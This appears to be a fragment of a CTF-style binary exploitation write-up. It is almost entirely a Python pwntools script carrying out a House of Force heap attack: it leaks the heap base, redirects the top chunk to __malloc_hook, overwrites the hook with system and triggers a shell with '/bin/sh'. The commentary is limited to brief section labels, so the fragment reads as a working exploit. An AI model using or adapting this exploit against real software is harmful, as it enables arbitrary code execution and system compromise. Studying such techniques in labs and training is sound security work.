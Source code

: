 ```python
[log.info](http://log.info/)("LEAKED HEAP BASE: " + str(hex(heap)))  
  
def malloc(size, data):  
    p.recvuntil(b'>> ')  
    p.sendline(b'1')  
    p.recvuntil(b'>> ')  
    p.sendline(str(size))  
    p.recvuntil(b'>> ')  
    p.sendline(data)  
  
  
  
# ---- House Of Force Set-Up ----  
malloc(40, b'\x41'*47)  
  
# ---- Point top chunk to __malloc_hook ----  
distance = libc.sym.__malloc_hook - (heap + 0x1330) - 0x10  
malloc(distance, 'dummy')  
  
# ---- Overwrite __malloc_hook with system ----  
malloc(24, p64(libc.sym.system))  
  
# ---- Point cmd at our name (/bin/sh) and call malloc to execute our overwritten hook ----  
cmd = heap + 0x1270  
p.recvuntil(b'>> ')  
p.sendline(b'1')  
p.recvuntil(b'>> ')  
p.sendline(str(cmd))  
  
p.interactive()
```

![[exploit_success.png]]
